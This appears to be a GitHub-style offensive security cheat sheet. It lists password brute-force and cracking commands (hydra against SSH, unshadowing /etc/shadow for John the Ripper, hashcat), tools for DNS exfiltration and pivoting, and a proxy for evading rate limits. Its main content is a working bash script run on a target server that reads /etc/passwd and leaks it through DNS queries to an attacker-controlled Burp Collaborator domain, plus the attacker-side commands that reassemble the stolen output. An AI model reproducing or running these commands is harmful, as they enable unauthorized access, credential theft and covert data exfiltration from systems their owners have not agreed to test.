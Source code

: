 ## Attacking

### Brute Force
https://github.com/vanhauser-thc/thc-hydra
<br># Number one of the biggest security holes are passwords, as every password security study shows. This tool is a proof of concept code, to give researchers and security consultants the possibility to show how easy it would be to gain unauthorized access from remote to a system.
<br>```hydra -l root -P 10-million-password-list-top-1000.txt www.example.com -t 4 ssh```

https://www.openwall.com/john/
<br># John the Ripper is an Open Source password security auditing and password recovery tool available for many operating systems.
<br>```unshadow /etc/passwd /etc/shadow > mypasswd.txt```
<br>```john mypasswd.txt```

https://hashcat.net/hashcat/
<br># Hashcat is a password recovery tool.
<br>```hashcat -m 0 -a 0 hashes.txt passwords.txt```

https://github.com/ustayready/fireprox
<br># Rotate the source IP address in order to bypass rate limits

### Exfiltration
https://github.com/vp777/procrustes
<br># A bash script that automates the exfiltration of data over dns

https://github.com/sensepost/reGeorg
<br># The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

https://github.com/fbkcs/ThunderDNS
<br># This tool can forward TCP traffic over DNS protocol. Non-compile clients + socks5 support.

<br># Pure bash exfiltration over dns
<br>## Execute on target server (replace YOURBCID)
```
CMD="cat /etc/passwd"
HID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
CMDID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
BC="YOURBCID.burpcollaborator.net"
D="$HID-$CMDID.$BC"
M=$($CMD 2>&1); T=${#M}; O=0; S=30; I=1; while [ "${T}" -gt "0" ]; do C=$(echo ${M:${O}:${S}}|base64); C=${C//+/_0}; C=${C//\//_1}; C=${C//=/_2}; host -t A $I.${C}.$D&>/dev/null; O=$((${O}+${S})); T=$((${T}-${S})); I=$((I+1)); done
```

<br>## Execute on attacker machine (replace YOURBIID) and extract Burp Collaborator results
```
BCPURL="https://polling.burpcollaborator.net/burpresults?biid=YOURBIID"
RESULTS=$(curl -sk "${BCPURL}")
```
<br>## Get IDs available
```
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep --color=never "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | sed -r 's/^[[:digit:]]+\.[^.]+\.([^.]+)\..*/\1/g' | sort -u
```
<br>## Update ID and get command result (repeat for each ID)
```
ID="xxxxx-xxxxx"
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | egrep "$ID" | sort -t. -k3 -g | sed -r 's/^[[:digit:]]+\.([^.]+)\..*/\1/g' | while read i; do i=${i//_0/+}; i=${i//_1/\/}; i=${i//_2/=}; echo ${i} | base64 -d; done
```
